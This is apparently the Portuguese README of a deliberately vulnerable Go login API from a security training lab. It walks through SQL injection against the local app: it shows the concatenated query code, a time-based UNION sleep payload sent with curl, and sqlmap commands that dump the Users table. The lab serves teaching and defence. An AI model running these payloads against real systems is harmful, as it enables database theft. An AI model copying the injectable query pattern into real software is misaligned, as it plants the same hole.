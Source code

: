 # CopyNPaste API

<p align="center">
<img src="images/CopyNPaste.png"/><a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

CopyNPaste é uma aplicação web Golang que usa uma API e um front-end simples para simular uma página de login. Possui rotas `/register` e `/login` que, ao se comunicar com um banco de dados MySQL, permitem que os usuários se registrem e entrem em um sistema genérico. 

## Index

- [CopyNPaste API](#copynpaste-api)
  - [Index](#index)
  - [O que é injeção?](#o-que-é-injeção)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 💉](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
    - [👀](#)
      - [A falta de validação de entrada permite a injeção de consultas SQL](#a-falta-de-validação-de-entrada-permite-a-injeção-de-consultas-sql)
      - [🔥](#-1)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/copy-n-paste
```

```sh
make install
```

Depois é só visitar [localhost:10001][app], conforme exemplificado abaixo:

<img src="images/CopyNPaste.png" align="center"/>

## Conheça o app 💉

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples: 

- Registre um novo usuário via front-end.
- Faça login como este usuário via front-end.

- Registre outro usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```

- Faça login como este segundo usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A falta de validação de entrada permite a injeção de consultas SQL

Depois de revisar `NewUser()` , `CheckIfUserExists()` e `AuthenticateUser()` de [`db.go`](<(https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/copy-n-paste/app/util/db.go#)>), foi possível ver que algumas entradas de usuários estão concatenadas com consultas SQL, conforme mostrado nos seguintes trechos de código:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

Como nenhuma validação está sendo feita nessas variáveis, as injeções de SQL podem ser executadas com sucesso no banco de dados. Usando a interface web, podemos enviar algumas informações, usando o formulário da "página de inspeção", para entender melhor como ela se comunica com a API.

<img src="images/attack-0.png" align="center"/>

Para confirmar que o campo de entrada é vulnerável, a seguinte carga útil pode ser usada para testar se um atraso de 5 segundos será observado após o envio:

```
-1' UNION select 1,2,sleep(5) -- '
```

<img src="images/attack-1.png" align="center"/>

Usando `curl` na interface CLI, podemos testá-lo novamente, desta vez com um atraso maior de 30 segundos:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Requisição:

<img src="images/attack-2.png" align="center"/>

30 segundos depois, confirmando que podemos executar comandos no servidor: 

<img src="images/attack-3.png" align="center"/>

#### 🔥

Um invasor pode agora criar qualquer consulta SQL maliciosa e enviá-la para a API que, em teoria, seria executada. Para esta narrativa de ataque, [sqlmap](https://github.com/sqlmapproject/sqlmap) será usado para exemplificar como um ataque automatizado de SQL Injection pode ser executado.

Para instalar o sqlmap em um Mac você pode simplesmente digitar:

```sh
brew install sqlmap
```

O primeiro passo possível é criar um arquivo, `postRequest.txt`, contendo o próprio HTTP POST, conforme mostrado no código a seguir:


```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Antes de executar o ataque, você pode abrir uma nova aba em seu terminal e digitar o seguinte comando para observar como as solicitações maliciosas serão recebidas pelo app:

```sh
docker logs a1_api -f
```

Depois disso, agora podemos usar a opção `-r` e esperar que o sqlmap execute várias solicitações maliciosas até encontrar o parâmetro vulnerável:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

Depois de entender como esse banco de dados é estruturado, um invasor pode usar o seguinte comando para recuperar os detalhes do banco de dados:

```sh
sqlmap -r postRequest.txt --tables
```

E, em seguida, recupere informações confidenciais dele:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute consultas SQL no banco de dados.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs
